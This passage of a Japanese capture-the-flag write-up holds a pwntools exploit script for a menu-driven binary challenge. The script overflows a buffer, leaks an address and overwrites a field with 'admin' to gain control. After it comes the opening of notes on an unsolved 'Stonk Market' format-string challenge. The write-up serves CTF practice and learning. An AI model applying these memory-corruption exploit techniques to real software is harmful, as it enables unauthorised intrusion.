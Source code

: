 ```python
        if bldg == -1:
                r.sendlineafter('? ', 'n')
        else:
                r.sendlineafter('? ', 'y')
                r.sendlineafter(': ', str(bldg))

def d(idx):
        r.sendlineafter('token\n', '2')
        r.sendlineafter('?\n', str(idx))

def p():
        r.sendlineafter('token\n', '3')

def t(idx):
        r.sendlineafter('token\n', '4')
        r.sendlineafter('?\n', str(idx))

r = start()
if args.D:
        debug(r, [0x1a34])

payload = ''
payload += 'a'*0x1c
payload += flat(0x1111, 0x2222, 0x3333, 0x4444, 0x5555)
a('AAAA', payload)
d(0)
a('BBBB')
a('CCCC')
p()
r.recvuntil('CCCC')
r.recvuntil('Bldg #: ')
leak = int(r.recvuntil('\n', True))
dbg('leak')
a('1111')
a('2222')
d(2)

pause()
payload = ''
payload += '4'*0x1c
payload += flat(leak, 0x35, 0x35, u32('admi'), u32('n\0\0\0'))
a('3333', phone=payload)
t(3)

r.interactive()
r.close()
```

64bit

# Stonk Market
ここから期間内に解けていない問題です。`Stonks`の改題で、フラグを読み込む処理が消える修正が入っています。ワンショットfsb問でno pie、partial relroになっています。スタックに任意の値が来ないので多段書き換えを利用する必要がありそうです。
